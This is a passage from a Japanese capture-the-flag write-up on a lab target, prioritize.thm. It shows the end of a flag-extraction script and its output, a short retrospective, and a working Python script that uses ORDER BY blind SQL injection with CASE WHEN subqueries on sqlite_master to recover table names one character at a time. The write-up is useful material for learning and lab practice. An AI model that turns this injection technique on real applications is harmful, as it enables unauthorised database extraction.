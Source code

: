 ```python
    if not found:
        print("[!] No match found. Exiting.")
        break

print(f"[✓] Final flag: {known}")
```

成功！

```sh
$ python ./exploit.py         
[+] Found character 1: f -> f
[+] Found character 2: l -> fl
[+] Found character 3: a -> fla
[+] Found character 4: g -> flag
[+] Found character 5: { -> flag{

...

[✓] Final flag: flag{...............................}
```

## 振り返り

- ORDER BY SQLi は初見で目から鱗。
- ただ今回は、意図せず flag テーブルと flag 列の発見過程をすっ飛ばしてしまったので、その過程を検証してみる。

### テーブル名の抽出

```python
import requests
import string

url = "http://prioritize.thm/"
charset = string.ascii_letters + string.digits + "_"
max_table_count = 10   # 最大テーブル数
max_name_len = 30      # テーブル名の最大長（仮定）

def check_sort(payload):
    params = {'order': payload}
    r = requests.get(url, params=params)
    return 'aaa' in r.text[:3096]  # title順ならTrue

found_tables = []

for table_index in range(max_table_count):
    table_name = ""
    for char_pos in range(1, max_name_len + 1):
        found = False
        for c in charset:
            injected = (
                f"CASE WHEN ((SELECT substr(name,{char_pos},1) "
                f"FROM sqlite_master WHERE type='table' "
                f"LIMIT 1 OFFSET {table_index}) = '{c}') "
                f"THEN title ELSE date END"
            )

            if check_sort(injected):
                table_name += c
                print(f"[+] Table {table_index}, Char {char_pos}: {c} -> {table_name}")
                found = True
                break
        if not found:
            break  # 文字が見つからなければこのテーブル名はここまで
```
